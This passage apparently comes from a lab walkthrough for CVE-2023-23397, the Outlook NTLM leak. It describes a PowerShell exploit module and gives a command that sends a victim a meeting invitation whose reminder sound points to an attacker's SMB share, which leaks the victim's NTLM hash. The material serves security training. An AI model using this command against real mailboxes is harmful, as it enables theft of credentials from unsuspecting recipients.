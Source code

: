 ![](./img/outlook_ntlm/Pasted%20image%2020230608144037.png)


Next we will use the  Powershell exploit to leverage Outlook's COM objects to build emails and appointments easily. It contains a couple of functions that we can use:

- **Save-CalendarNTLMLeak:** This function creates a malicious appointment and saves it to your own calendar. Useful for testing purposes.

- **Send-CalendarNTLMLeak:** This function creates a malicious appointment and sends it via email to a victim. The email invitation will be sent from your Outlook's current default account.

### Using the Exploit


Commands: 

```

Import-Module .\CVE-2023-23397.ps1

Send-CalendarNTLMLeak -recipient "test@thm.loc" -remotefilepath "\\10.8.78.131\foo\bar.wav" -meetingsubject "CyberSec Meeting Request" -meetingbody "This is just a regular meeting invitation :) - Floyd"


```

